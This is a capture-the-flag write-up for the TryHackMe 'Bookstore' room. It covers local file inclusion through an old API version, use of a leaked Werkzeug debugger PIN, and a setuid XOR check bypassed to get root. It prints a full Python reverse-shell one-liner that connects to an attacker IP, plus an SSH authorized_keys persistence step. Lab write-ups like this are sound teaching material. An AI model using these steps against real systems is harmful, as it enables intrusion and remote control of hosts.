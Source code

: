 <h1>Writeup for Bookstore room on <a href='https://tryhackme.com'>TryHackMe</a></h1>

<h3>User Flag</h3>
Enumerate the IP with nmap
<br></br><img src='Screenshot (72).png'/><br></br>
We can see port 5000 which seems to be running a python server, we'll get back to that in a minute.
Let's enumerate the webserver first. There is nothing special about the webserver as in general. Even the login feature is nothing but a dud but if you look at the source code of the <b>login.html</b>,there is a hint.
<br></br><img src='Screenshot (73).png'/><br></br>
The debugger pin is in sid's bash history which would be <b>.bash_history</b><br></br>
Now we move to port 5000.
It is a REST Api and if you visit <b>/api</b> you can see all the available endpoints.
I tried to read the bash file with id, author and published query parameter but they did not work.
So I went back to the website and started the enumeration again and this time in /assests/js/api.js I saw the following comment
<h5>//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.</h5>
This indicates that we need to look for a parameter in the previous version. So now we need to change the version from v2 to v1 and look for a parameter.
<br></br>I used <b><a href='https://github.com/ffuf/ffuf'>FFUF</a></b> for this.
<br></br><img src='Screenshot (74).png'/><br></br>
We have the show parameter which we can use to get the pin. Now we can use the pin at <b>http://{MACHINE IP}:5000/console</b> (I was not aware of what Werkzeug was so I had to manually enumerate for the /console).
When you enter the pin you can access the console which executes python code.We can use that to get the shell, I used the python reverse shell for this but yuo are free to use any other shell
<h5>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{YOUR IP}",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")</h5>
With this we get the shell as user. Improve the shell by adding your ssh public key(present at ~/.ssh/id_rsa.pub) to <b>.ssh/authorized_keys</b> of the user sid, you need to create the .ssh folder first.
<h5>echo 'YOUR PUBLIC SSH KEY' > ~/.ssh/authorized_keys</h5>
After adding the keys you can login with your private key. You can create ssh keys with <b>ssh-keygen</b>, read more about it <a href='https://www.ssh.com/ssh/keygen/'>here</a>

<h3>Root</h3>
We can see a tryharder binary which has 's' bit set which means that we can run the binary as root. If you run the binary we can see that it asks us for a number and exits giving the message 'Incorrect Try Harder'. 
Lets copy the binary to our machine(Run the below command in your machine).
<h5>scp -i ~/.ssh/id_rsa sid@{MACHINE IP}:/home/sid/tryharder .</h5>
Now that we have the binary on our machine we can analyse the binary now.
Running <b>strings</b> command against the binary shows us something very interesting.
<br></br><img src='Screenshot (76).png'/><br></br>
bash is running with -p to preserve the privileges of the root. Now we just need to find the magical number it is asking us. I opened the binary in ghidra and saw that our input was XORed with two values and then compared with a hex value, if it was equal to the hex value then it would run the bash command
<br></br><img src='Screenshot (77).png'/><br></br>
We can see that our input is being stored in <b>local_lc</b> variable and it is being XORed with hex value,  0x1116, and <b>local_l8</b>  varaiable with value, 0x5db3.
<br></br>
You can convert the hex values to decimal in Python Console.
<br></br><img src='Screenshot (78).png'/><br></br>

In XOR, if a ^ b ^ c = d then b ^ c ^ d = a (^ is xor. Also 0 ^ a = a and a ^ a = 0, you can use this property to understand the above statement. In the first equation XOR both sides with 'a' then the equation becomes b ^ c = d ^ a since a ^ a is 0 and anything XORed with 0 is the value itself. Now if you XOR both side with 'd' we will get b ^ c ^ d = a).
Now using this we will do, 23987 ^ 4374 ^ 1573724660 (1573724660 is the decimal value of 0x5dcd21f4 which is the hex value used in the comparision).
We will get the value we need, Now run the binary again, enter the value you get and that will give you root shell
